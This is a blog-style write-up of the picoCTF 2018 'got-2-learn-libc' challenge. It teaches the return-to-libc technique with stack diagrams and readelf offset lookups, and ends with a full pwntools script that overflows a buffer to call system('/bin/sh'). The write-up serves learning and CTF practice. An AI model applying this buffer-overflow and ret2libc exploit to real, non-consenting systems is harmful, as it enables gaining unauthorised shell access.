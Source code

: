 ```yaml
---
layout: post
title: Binary Exploitation - got-2-learn-libc (250) - PicoCTF 2018
categories: [general, CTFs]
tags: [CTFs, picoCTF2018]
comments: true
---
```


So this challenge was a great introduction for the concept of ret-2-libc.
As we run the binary we were given a several addresses from libc, that may be really  useful in our exploit.
> Here are some useful addresses:
> 
> puts: 0xf7e2bb40
>
> fflush 0xf7e29cb0
>
> read: 0xf7eaacb0
>
> write: 0xf7eaad80
>
> useful_string: 0x56575030

*Keep in mind that this addresses are random when running the binary on  the remote server due to ASLR.

So apparently we get the addresses of some functions that can be found in libc, as well as an address of a "useful_string".
By examine the binary with GDB we can view the content of this particular address, and we found out that it points to the following string

>  gdb-peda$ x/s 0x56557030
>
> 0x56557030 <**useful_string**>: "/bin/sh"

Knowing that our goal is getting a shell, having the address of `"/bin/sh"` is very useful. Basically our goal is to find a way to call `system` with `"/bin/sh"`, as it will result with a shell on the remote server, and the ability to view the content of flag.txt.

# So what is actually the "ret-2-libc" technique? 
Simply put, "return-to-libc" allows us to bypass protections like NX on the stack which defeat execution from stack. So even if we have a buffer-overflow (And we do have one in this challenge), we can't just write our shell-code to the stack and overwrite the return address to jump back to it and execute the shell-code, because the stack is protected.
What we can do, however, is to use the fact we have a buffer overflow to create a fake function stack frame, consisting of the address of a function that is already loaded into the process' memory (`system`) and give it an appropriate argument (in this case, the address of `"/bin/sh"`).

* You may check the following article to get a better grip and knowledge about ret-2-libc - [Return-to-libc - ExploitDB](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf) 


So the stack should look like this:

|Before|
|---|
|**Lower Memory Address**|
|Real Return Address|
|something|
|something|
|**Higher Memory Address**|

** **

|After|
|---|
|**Lower Memory Address**|
|System's Address|
|Fake Return Address |
|"/bin/sh" Address|
|**Higher Memory Address**|

* Notice that we use a fake return address because when a function is called the arguments are pushed first, and then the return address is pushed as well.


# Getting the address of system 
It's about time we'll take advantage of the functions' address we got.
Basically, we only need an libc address of one function.
As I mentioned earlier there is a possibility  we have an ASLR protection on the remote server so the address of `system` is different each time, but the difference between the address of another libc function (`puts` for example) and the address of `system` is always the same - offsets don't change.

Since we have access to libc in the path `lib/i386-linux-gnu/libc.so.6`we can use `readelf` to get the offset of `puts` and calculating the `libc base address`, and then adding to that address the offset of `system` which will give us the long-awaited address of `system`.
So `readelf -s lib/i386-linux-gnu/libc.so.6 | grep puts` gave us the offset `0x5f140`, and `readelf -s lib/i386-linux-gnu/libc.so.6 | grep system` gave us the offset `0x3a940`. 

# The script
```python
from pwn import *

addresses = {}
SYSTEM_OFFSET = 0x3a940
PUTS_OFFSET = 0x5f140

def get_useful_addresses():
	r.recvline()
	r.recvline()
	add = r.recvuntil("Enter")
	for address in add.split("\n"): 
		if address != "" and address != "Enter" and ":" in address:
			addresses[address.split(": ")[0]] = address.split(": ")[1] 

def handle_logic():
	get_useful_addresses()
	r.recvuntil("ring:")
	libc_base_address = hex((int(addresses['puts'], 16) - PUTS_OFFSET))
	system_libc_address = hex(int(libc_base_address, 16) + SYSTEM_OFFSET)
	print ("libc base address - " + libc_base_address)
	print ("system libc address - " + system_libc_address)
	payload = "A"*160
	payload += p32(int(system_libc_address, 16))
	payload += p32(int("0xdeadbeef", 16)) 
	payload += p32(int(addresses['useful_string'],16))
	r.sendline(payload)
	

if __name__ == "__main__":
	r = process(['./vuln'])
	handle_logic()
	r.interactive()
```

